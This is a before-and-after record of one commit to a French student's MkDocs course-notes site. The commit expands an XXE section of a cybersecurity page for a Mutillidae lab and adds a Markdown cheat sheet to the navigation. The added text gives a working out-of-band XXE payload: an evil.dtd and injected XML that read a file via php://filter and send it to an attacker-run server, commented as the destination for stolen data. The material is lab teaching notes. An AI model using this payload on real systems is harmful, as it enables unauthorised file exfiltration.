

Before and after one commit to louisonsarlinmagnus/cours-isen, an MkDocs documentation site: the page built from docs/tech-cybersecurite.md, in a window 1280 px wide and 1400 px high, scrolled down 5360 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 6429 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
cybersécu et ajout cheat sheet

````diff
--- a/docs/tech-cybersecurite.md
+++ b/docs/tech-cybersecurite.md
@@ -180,6 +180,8 @@ On lance l'attaque !!
 
 #### XXE
 
+##### Attaque en direct
+
 On souhaites exploiter des erreurs de paramétrage dans les parseurs XML.
 Pour se faire on intercepte la requête et on change la partie XML en ce qui suit.
 ```xml
@@ -191,10 +193,6 @@ Pour se faire on intercepte la requête et on change la partie XML en ce qui sui
 ```
 
 On aura en retour: `.dockerenv bin boot dev docker-java-home etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var `.
-
-
-
-
 
 
 Le script suivant permet quant à lui d'exfiltrer ces données en créant une variable ou on stocke les données de secret.txt, puis on affiche cette variable.
@@ -240,9 +238,46 @@ Ici on va cherche le fichier attack.dtd et on viens afficher son contenu
 </comment>
 ```
 
+##### Mulillidae
 
+L'outil du TP: [Mulillidae](http://192.168.0.1/mutillidae/index.php?page=xml-validator.php)
+On souhaite a présent extraire les données vers un site externe.
 
+evil.dtd (placé ici: `http://127.0.0.1:81/evil.dtd`)
+```xml
+<?xml version="1.0" encoding="utf-8"?>
+<!ENTITY % all "<!ENTITY send SYSTEM 'http://127.0.0.1:81'>"> #Serveur auquel envoyé les logs avec les données volées
+%all;
+```
 
+Script renseigné
+```xml
+<?xml version="1.0" encoding="utf-8"?>
+<!DOCTYPE roottag [
+<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=robots.txt"> #Localisation du fichier a voler
+<!ENTITY % dtd SYSTEM "http://127.0.0.1:81/evil.dtd"> #Lien ou stocker le .dtd
+%dtd;
+]>
+<company>
+  <employee>
+    <firstname>Jo</firstname>
+    <lastname>Black</lastname>
+  </employee>
+  <employee>
+    <firstname>John</firstname>
+    <lastname>Doe</lastname>
+  </employee>
+  <employee>
+    <firstname>&send;Bob</firstname>
+    <lastname>Smith</lastname>
+  </employee>
+</company>
+```
+
+!!! Explications
+    On demande via le XML renseigner de stocker robots.txt (encodé) et de stocké dans file
+    Puis de charger notre script evil.dtd sur un server externe
+    Le script evil demande d'envoyé "un log" sur notre serveur local avec les infos du fichier volé
 
 
 ### Access Control Flaws
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -21,6 +21,7 @@ nav:
   - Recherches:
     - Les réseaux électriques: recherche-reseauxElec.md
     - Transition énergétique: recherche-transitionEnergetique.md
+  - Markdown Cheat Sheet: mdCheat.md
   - A propos: about.md
 
 
````
Also changed, not shown: other parts of docs/tech-cybersecurite.md (+1 -1 lines), docs/mdCheat.md (added, +22 -0 lines).
